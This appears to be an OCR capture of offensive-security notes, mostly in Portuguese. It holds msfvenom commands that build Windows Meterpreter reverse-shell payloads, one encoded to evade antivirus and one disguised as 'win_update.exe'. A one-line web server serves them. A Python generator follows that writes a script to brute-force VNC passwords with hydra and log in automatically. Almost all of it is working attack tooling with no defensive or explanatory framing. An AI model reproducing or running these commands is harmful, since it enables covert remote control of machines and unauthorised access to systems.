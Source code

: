 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

# Criando um script Python que faz brute force VNC com hydra e testa o login com vncviewer automaticamente

ip_alvo = "192.168.1.84"  # IP alvo
wordlist_path = "/mnt/data/wordlist_atibaia.txt"

script_content = f"""
import subprocess
import time

ip_alvo = "{ip_alvo}"
wordlist_path = "{wordlist_path}"

print(f"Iniciando brute force VNC contra {{ip_alvo}}...\\n")

# Executa brute force via hydra
comando = [
    "hydra",
    "-P", wordlist_path,
    "-t", "4",
    "-f",
    "-V",
    ip_alvo,
    "vnc"
]

resultado = subprocess.run(comando, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)

# Se encontrar a senha no output do hydra
for linha in resultado.stdout.splitlines():
    if "login:" in linha or "host:" in linha:
        print("\\n====> Senha encontrada! Resultado:")
        print(linha)
        
        # Extrai a senha do output
        partes = linha.split()
        for parte in partes:
            if "password:" in parte:
                senha_encontrada = parte.split("password:")[1]
                break
        else:
            # fallback caso o formato seja diferente
            senha_encontrada = partes[-1]

        print(f"Tentando conexão automática com vncviewer usando a senha: {{senha_encontrada}}")

        # Testa o login com vncviewer
        print("\\nAbrindo VNC Viewer... Feche manualmente quando quiser encerrar a sessão.")
        subprocess.Popen(["vncviewer", ip_alvo, "-passwd", senha_encontrada])
        break
else:
    print("Nenhuma senha encontrada ou tentativa falhou.")

print("Brute force VNC concluído.")
"""

with open("/mnt/data/bruteforce_vnc_auto_connect.py", "w") as f:
    f.write(script_content)

print("Script Python criado: 'bruteforce_vnc_auto_connect.py' (com conexão automática via vncviewer).")


